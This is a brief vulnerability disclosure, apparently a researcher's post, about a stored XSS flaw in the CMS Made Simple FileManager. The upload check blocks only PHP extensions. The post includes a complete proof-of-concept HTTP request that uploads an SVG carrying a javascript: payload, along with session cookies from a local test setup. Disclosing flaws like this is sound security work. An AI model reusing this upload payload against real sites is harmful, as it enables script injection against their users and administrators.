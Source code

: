 one day I felt like reviewing the source code of some random CMS and I picked CMSMS. This is totally random and I did this to kill boredom.
## FILE UPLOAD XSS  
In file manager,user can upload any files other than php。If the file ends with html, svg, it can Cause XSS.
file modules/FileManager/action.upload.php,line10~line29.  
    
    protected function is_file_acceptable( $file )
    {
      $config = \cms_config::get_instance();
      if( !$config['developer_mode'] ) {
          $ext = strtolower(substr(strrchr($file, '.'), 1));
          if( startswith($ext,'php') || endswith($ext,'php') ) return FALSE;
      }
      return TRUE;
  }
  
  It only intercepts PHP files.
  
  

### poc
   ```
   POST /admin/moduleinterface.php HTTP/1.1
   Host: 127.0.0.1
   User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
   Accept: application/json, text/javascript, */*; q=0.01
   Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
   X-Requested-With: XMLHttpRequest
   Referer: http://127.0.0.1/
   Content-Length: 865
   Content-Type: multipart/form-data;
   boundary=---------------------------135822859015495
   Cookie: CMSICb6b86d162b=t5qthj5ve9r557omvs3j9slkm4; CMSSESSID4df2b2a65ee6=5osblhhflr07cfmp1730ffn3n0; _sk_=98cf4d97037a4df557b; bef694b94d14a6e115ebafd2d6cd1380=LGb1BagmBwZ6VaIcMPV7nGbkB3Z6BQbvqKAypz5uoJHvB3Z6AGbvLJEgnJ4vB3Z6AGbvL2gmqJ0vB3Z6AQN6Vwp1MzLkZJD3BQAyZzD4MQt3AGIyATH4MzL1BJRlLwMzZJWyLGVjMQHvB3Z6AmbvMJMzK3IcMPV7GwgmBwRlBvWyMzMsqKAypz5uoJHvB047sD%3D%3D
   Connection: close
   -----------------------------135822859015495
   Content-Disposition: form-data; name="mact"
   FileManager,m1_,upload,0
   -----------------------------135822859015495
   Content-Disposition: form-data; name="_sk_"
   98cf4d97037a4df557b
   -----------------------------135822859015495
   Content-Disposition: form-data; name="disable_buffer"
   1
   -----------------------------135822859015495
   Content-Disposition: form-data; name="m1_files[]"; filename="svg.svg"
   Content-Type: image/png
   <svg id="rectangle"
   xmlns="http://www.w3.org/2000/svg"
   xmlns:xlink="http://www.w3.org/1999/xlink"
   width="100" height="100">
   <foreignObject width="100" height="50"
   requiredExtensions="http://www.w3.org/1999/xhtml">
   <embed xmlns="http://www.w3.org/1999/xhtml" 
   src="javascript:alert('xss')" />
   </foreignObject>
   </svg>
   -----------------------------135822859015495--
   ```

![](http://ohsqlm7gj.bkt.clouddn.com/17-11-12/40567149.jpg)

    
